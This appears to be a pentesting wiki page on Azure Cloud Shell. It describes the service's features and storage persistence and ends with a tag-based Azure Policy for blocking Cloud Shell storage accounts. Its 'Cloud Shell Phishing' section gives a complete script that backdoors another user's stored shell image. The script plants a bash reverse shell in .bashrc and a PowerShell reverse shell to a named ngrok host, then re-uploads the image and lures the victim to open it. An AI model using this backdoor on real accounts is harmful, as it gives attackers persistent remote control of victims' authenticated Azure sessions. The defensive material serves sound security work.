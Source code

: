 # Az - Cloud Shell

## Azure Cloud Shell

**Azure Cloud Shell** is an interactive, authenticated, browser-accessible terminal designed for managing Azure resources, offering the flexibility to work with either Bash or PowerShell. It runs on a temporary, per-session host that times out after 20 minutes of inactivity, while persisting files in the $HOME location using a 5-GB file share. Cloud Shell can be accessed through multiple points, including the Azure portal, shell.azure.com, Azure CLI and PowerShell documentation, the Azure mobile app, and the Visual Studio Code Azure Account extension.

There aren't permissions assigned to this service, therefore the aren't privilege escalation techniques. Also there isn't any kind of enumeration.

### Key Features

- **Preinstalled Tools**: Cloud Shell includes a comprehensive set of preinstalled tools such as Azure CLI, Azure PowerShell, Terraform, Docker CLI, Ansible, Git, and text editors like vim, nano, and emacs. These tools are ready to use. To list the installed packeges and modules you can use "Get-Module -ListAvailable", "tdnf list" and "pip3 list".
- **Azure drive (Azure:)**: PowerShell in Azure Cloud Shell includes the Azure drive (Azure:), which allows easy navigation of Azure resources like Compute, Network, and Storage using filesystem-like commands. Switch to the Azure drive with cd Azure: and return to your home directory with cd ~. You can still use Azure PowerShell cmdlets to manage resources from any drive.
- **Custom Tool Installation**: Users who configure Cloud Shell with a storage account can install additional tools that do not require root permissions. This feature allows for further customization of the Cloud Shell environment, enabling users to tailor their setup to their specific needs.
- **$HOME persistence**: When starting Azure Cloud Shell for the first time, you can use it with or without an attached storage account.
    - Choosing not to attach storage creates an ephemeral session where files are deleted when the session ends.
    - To persist files across sessions, you are given the option to **mount a storage account**, which attaches automatically as `$HOME\clouddrive`, with your `$HOME` directory **saved as an .img file in a File Share.**

### Cloud Shell Phishing

If an attacker finds other users images in a Storage Accout he has write and read access to, he will be able to download the image, **add a bash and PS backdoor into it**, and upload it back to the Storage Account so next time the user access the shell, the **commands will be automatically executed**.

- **Download, backdoor and uplaod the image:**

```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name> -s <file-share>

# Mount the image
mkdir /tmp/backdoor_img
sudo mount ./.cloudconsole/acc_carlos.img /tmp/backdoor_img
cd /tmp/backdoor_img

# Create backdoor
mkdir .config
mkdir .config/PowerShell
touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo '$client = New-Object System.Net.Sockets.TCPClient("7.tcp.eu.ngrok.io",19838);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' >> .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Unmount
cd /tmp
sudo umount /tmp/backdoor_img

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img" -s <file-share>
```

- **Then, phish the user to access https://shell.azure.com/**

### Find & Forbid Cloud Shell Automatic Storage Accounts

Storage accounts created by Cloud Shell are tagged with **`ms-resource-usage:azure-cloud-shell`**. It’s possible to create an Azure resource policy that disable creating resources with this tag.

Find all the storage accounts created by Cloud Shell by tags:

```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```

Policy to forbid the creation of automatic storage accounts for cloud shell storage based on tags:

```json
{
    displayName: "Restrict cloud shell storage account creation",
    description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
    metadata: {
        category: "Storage",
        version: "1.0.0"
    },
    mode: "All",
    parameters: {
        effect: {
            type: "String",
            metadata: {
                displayName: "Effect",
                description: "Deny, Audit or Disabled the execution of the Policy"
            },
            allowedValues: [
                "Deny",
                "Audit",
                "Disabled"
            ],
            defaultValue: "Audit"
        }
    },
    policyRule: {
        if: {
            allOf: [
                {
                field: "type",
                equals: "Microsoft.Storage/storageAccounts"
                },
                {
                field: "tags['ms-resource-usage']",
                equals: "azure-cloud-shell"
                }
            ]
        },
        then: {
            effect: "[parameters('effect')]"
        }
    }
}
```

## Persistence

[[../az-persistence/az-cloud-shell-persistence.md]]

## References

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)
- [https://www.azadvertizer.net/azpolicyadvertizer/dab3c67a-5f00-47ec-bba6-cc6984c33ae0.html](https://www.azadvertizer.net/azpolicyadvertizer/dab3c67a-5f00-47ec-bba6-cc6984c33ae0.html)


